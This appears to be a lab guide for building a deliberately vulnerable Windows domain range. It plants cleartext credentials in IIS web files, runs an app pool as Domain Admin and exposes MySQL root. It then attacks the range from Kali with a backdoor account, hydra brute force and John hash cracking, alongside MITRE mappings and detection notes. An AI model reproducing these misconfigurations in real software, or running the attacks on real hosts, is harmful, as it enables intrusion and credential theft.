

# **Cleartext credentials**

```powershell
# cleartext-credentials-app01.ps1

$www = "C:\inetpub\wwwroot"

# Create Scripts folder if it doesn't exist

if (-not (Test-Path "C:\Scripts")) { New-Item "C:\Scripts" -ItemType Directory -Force }

# web.config with SQL creds
@"
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
  <connectionStrings>
    <add name="CJCS_DB" connectionString="Server=DC01;Database=CJCS;User Id=svc-sql;Password=SqlPassword123!;" />
  </connectionStrings>
</configuration>
"@ | Out-File "$www\web.config" -Encoding UTF8

# config.php with MySQL creds
@"
<?php
\$db_host = '127.0.0.1';
\$db_user = 'root';
\$db_pass = 'Root2024!';
\$db_name = 'cjcs_app';
?>
"@ | Out-File "$www\config.php" -Encoding UTF8

# backup.bat with DA creds
@"
echo Backing up database...
sqlcmd -S DC01 -U svc-sql -P SqlPassword123! -Q "BACKUP DATABASE CJCS TO DISK='C:\backup.bak'"
echo Backup complete - marcus_chen:Executive2024! >> C:\backup-log.txt
"@ | Out-File "$www\backup.bat" -Encoding ASCII

# deploy.bat with service account
@"
rem svc-app:AppPassword123! - do not delete
net use \\DC01\c$ /user:cjcs\svc-app AppPassword123!
"@ | Out-File "C:\Scripts\deploy.bat" -Encoding ASCII
```

## **MITRE ATT&CK Mapping**

- **T1552** (Unsecured Credentials)
- **T1078** (Valid Accounts)

## **Detection Opportunities**

These misconfigurations create detectable events:

- Successful HTTP 200 responses for known sensitive file paths containing credentials (e.g., `/web.config`, `/backup.bat`, `/config.php`).
- Successful network logons (Security Event ID 4624) by a newly exposed privileged account (e.g., **`marcus_chen`** or **`svc-sql`**) to an unexpected host (e.g., DC01 or the APP01 itself).
- The same credential being used to access multiple services (e.g., HTTP file access on APP01 followed immediately by an RDP logon to MGR1 or SQL logon to DC01).
- The **`svc-sql`** account attempting non-database related activities (e.g., PowerShell execution) outside of its defined service context.


---

### Cleartext credentials

**Verify on APP01:**

```powershell
ls C:\inetpub\wwwroot\web.config, C:\inetpub\wwwroot\config.php, C:\inetpub\wwwroot\backup.bat, 
C:\Scripts\deploy.bat
```


**Display cleartext credentials:**

```powershell
Get-Content C:\inetpub\wwwroot\web.config
Get-Content C:\inetpub\wwwroot\config.php
Get-Content C:\inetpub\wwwroot\backup.bat
Get-Content C:\Scripts\deploy.bat
```


---

## Impact

- **web.config cleartext** = SQL Server credentials exposed
- **config.php cleartext** = MySQL root access
- **backup.bat cleartext** = SQL + Domain Admin credentials
- **deploy.bat cleartext** = service account credentials
- **Directory browsing** = all credential files publicly downloadable
- **Database compromise** = all application data accessible
- **Domain Admin credentials** = complete domain compromise
- **Credential reuse** = test passwords across all systems
- **No encryption** = passwords readable by anyone with file access


---


# **Vulnerable IIS configuration:**

```powershell
Import-Module WebAdministration

# Directory browsing + detailed errors

Set-WebConfigurationProperty -pspath 'MACHINE/WEBROOT/APPHOST' -filter "system.webServer/directoryBrowse" -name "enabled" -value $true

Set-WebConfigurationProperty -pspath 'MACHINE/WEBROOT/APPHOST' -filter "system.webServer/httpErrors" -name "errorMode" -value "Detailed"

# App pool running as Domain Admin

Set-ItemProperty IIS:\AppPools\DefaultAppPool -Name processModel.identityType -Value 3

Set-ItemProperty IIS:\AppPools\DefaultAppPool -Name processModel.userName -Value "cjcs\marcus_chen"

Set-ItemProperty IIS:\AppPools\DefaultAppPool -Name processModel.password -Value "Executive2024!"

# Weak permissions on wwwroot

icacls "C:\inetpub\wwwroot" /grant "Everyone:(OI)(CI)F" /T

# .bak files served

Add-WebConfiguration -Filter "system.webServer/staticContent" -Value @{fileExtension=".bak"; mimeType="application/octet-stream"}
```

## **MITRE ATT&CK Mapping**

- **T1592** (Gather Victim Host Information)
- **T1068** (Exploitation for Privilege Escalation)
- **T1574.002** (Hijack Execution Flow: DLL Side-Loading / Path Interception)


## **Detection Opportunities**

These misconfigurations create detectable events:

- `w3wp.exe` (IIS worker process) spawning unexpected child processes like `powershell.exe` or `cmd.exe`.
- The `w3wp.exe` process initiating under a high-privilege account (e.g., **`marcus_chen`** Domain Admin).
- High volume of HTTP $\mathbf{404}$ or $\mathbf{403}$ errors followed by a successful $\mathbf{200}$ response on unusual file extensions (`.bak`, `.config`).
- File creation events (Sysmon Event ID 11) in the C:\inetpub\wwwroot directory originating from a remote network share (SMB/Logon Type 3).
- Repetitive external web requests attempting to access sensitive application directories or files (e.g., `/scripts/`, `/uploads/`).


---

### Directory browsing and detailed error messages enabled


```powershell
# PowerShell command to verify directory browsing is enabled
Get-WebConfigurationProperty -pspath 'MACHINE/WEBROOT/APPHOST' `
    -filter "system.webServer/directoryBrowse" `
    -name "enabled"

# Should show: Value: True
```


```powershell
# PowerShell command to verify detailed errors enabled
Get-WebConfigurationProperty -pspath 'MACHINE/WEBROOT/APPHOST' `
    -filter "system.webServer/httpErrors" `
    -name "errorMode"

# Should show: errorMode : Detailed
```


**Accessing the web portal via browser on KALI and triggering a detailed error message:**


**Curl the webpage via command line:**


---

### App Pool running as Domain Administrator

**Verify on APP01**

```powershell
Import-Module WebAdministration
Get-ItemProperty IIS:\AppPools\DefaultAppPool `
| Select-Object `
@{Name="IdentityType";Expression={$_.processModel.identityType}},`
 @{Name="UserName";Expression={$_.processModel.userName}}
```


Confirms the pool is running as a **Custom Account** (`SpecificUser`) rather than a secure built-in identity like `ApplicationPoolIdentity`.


---

### Weak permissions on wwwroot

**Verify on APP01**

```powershell
icacls C:\inetpub\wwwroot
```


The `(F)` confirms the **Full Control** privilege.


---

## Impact

- **Directory browsing enabled** = complete file structure exposed
- **Detailed error messages** = server paths, versions, stack traces leaked
- **Domain Admin app pool** = web vulnerability = domain compromise
- **Everyone:Full Control** = any domain user uploads web shell
- **Backup files served** = config files with credentials downloadable
- **Web shell upload** = Domain Admin command execution
- **Lateral movement** = APP01 as pivot to entire domain
- **No authentication needed** = public web access = internal compromise


---

# **Vulnerable MySQL configuration:**

```bash
# Create root user that can authenticate from ANY host
# Uses a weak, predictable password

CREATE USER IF NOT EXISTS 'root'@'%' IDENTIFIED BY 'MySQL123!';

# Grant ALL privileges on ALL databases

GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;

# Service account accessible from ANY host
# Uses a weak, predictable password 

CREATE USER IF NOT EXISTS 'svc-sql'@'%' IDENTIFIED BY 'SqlPassword123!';

# Identical privileges as root

GRANT ALL PRIVILEGES ON *.* TO 'svc-sql'@'%' WITH GRANT OPTION;

FLUSH PRIVILEGES;

notepad "C:\ProgramData\MySQL\MySQL Server 8.0\my.ini"

# Binds MySQL to ALL network interfaces
# Database accessible from NAT network, not just localhost

bind-address = 0.0.0.0

net stop MySQL80
net start MySQL80
```

**Test on KALI:**

```bash
# 1. Root 

mysql -h 192.168.56.4 -u root -pMySQL123! --ssl-verify-server-cert=0

# 2. svc-sql

mysql -h 192.168.56.4 -u svc-sql -pSqlPassword123! --ssl-verify-server-cert=0
```

**Direct from APP01:**

```powershell
"C:\Program Files\MySQL\MySQL Server 8.0\bin\mysql.exe" -u root -pMySQL123!
```
## **MITRE ATT&CK Mapping**

- **T1078.001** - Valid Accounts: Default Accounts
- **T1078.003** - Valid Accounts: Local Accounts (service account abuse)
- **T1552.001** - Unsecured Credentials: Credentials In Files
- **T1210** - Exploitation of Remote Services (exposed database)
- **T1557** - Man-in-the-Middle (no SSL verification)

## **Detection Opportunities**

These misconfigurations create detectable events:

- Remote MySQL authentication from non-web-server IPs
- Multiple failed authentication attempts (credential stuffing)
- Unusual `GRANT` operations (privilege escalation)
- Database connections from unexpected subnets
- Large data exfiltration (SELECT queries with high row counts)


---

### Root accessible remotely

**Verify on APP01:**


**KALI root access:**


**KALI creates backdoor:**

```bash
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'Persistent123!'; 
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION;
```


---

### Service account with root privileges

```bash
SHOW GRANTS FOR 'svc-sql'@'%' \G
```


**KALI logs in directly as service account:**



---

### MySQL bound to ALL network interfaces

```powershell
# View the vulnerable configuration

notepad "C:\ProgramData\MySQL\MySQL Server 8.0\my.ini"
```


```powershell
# Verify the listening port

netstat -ano | Select-String "3306"
```


**Probe port 3306 from KALI to get specific MySQL details:**

```bash
# Network sweep for MySQL services 
nmap -p 3306 192.168.56.0/24 --open 

# Service version detection 
nmap -p 3306 -sV 192.168.56.4
```


```bash
# MySQL-specific enumeration 

nmap -p 3306 --script=mysql-info,mysql-enum 192.168.56.4
```


---
### Weak password

**Credential brute force:**

```bash
# Attack from KALI
# Use hydra with a pre-determined wordlist for MySQL

cd /usr/share/wordlists/
hydra -l root -P mysql.txt mysql://192.168.56.4 -t 4 -V
```


**KALI cracks the hash offline**:

```bash
# After gaining access, view stored password hashes

SELECT user, host, authentication_string 
FROM mysql.user;
```


- The two `root` user hashes are: `*6EC9DAC5D899D7F91D65025352A68A7FB70132E8`
- The hash starts with an asterisk (`*`) and is **41 characters long** (including the `*`).
- This format is known as the **MySQL 4.1+/MySQL Native Password** format, which is an SHA-1 hash of an SHA-1 hash of the password `SHA1(SHA1(password))`.
- This hash type corresponds to **Hashcat Mode 300** or **John the Ripper's `mysql-sha1` format**.

```bash
# Extract hash files to KALI

mysql -h 192.168.56.4 -u root -pMySQL123! --ssl-verify-server-cert=0 -e "SELECT CONCAT(user, ':', authentication_string) FROM mysql.user WHERE authentication_string != ''" | tail -n +2 | awk '{print $1}' > mysql_hashes.txt

# Crack with John the Ripper
john --format=mysql-sha1 --wordlist=/usr/share/wordlists/mysql.txt mysql_hashes.txt
```


 

---

### SSL certificate verification disabled

```bash
# Verify on APP01

SHOW VARIABLES LIKE 'require_secure_transport';
```


**Client-side connection with disabled verification:**

```bash
mysql -h 192.168.56.4 -u root -pMySQL123! --ssl-verify-server-cert=0
```


**Secure connection attempt (without flag) reveals certificate issues:**

```bash
mysql -h 192.168.56.4 -u root -pMySQL123!
```


**tcpdump packet capture:**

```bash
tcpdump -i eth1 -w mysql_capture.pcap 'port 3306'
```


**Open pcap file in Wireshark:**


---

## Impact

- **Root accessible remotely** = god-mode MySQL access from network
- **No authentication restrictions** = root@'%' accepts any host
- **All privileges granted** = read/write all databases
- **svc-sql full privileges** = domain service account with MySQL admin
- **File system access** = LOAD_FILE() reads any file
- **File write capability** = INTO OUTFILE writes web shells
- **Database dumping** = exfiltrate all application data
- **Backdoor MySQL users** = persistent database access
- **No SSL required** = credentials transmitted cleartext
- **Bind to 0.0.0.0** = MySQL accessible from entire network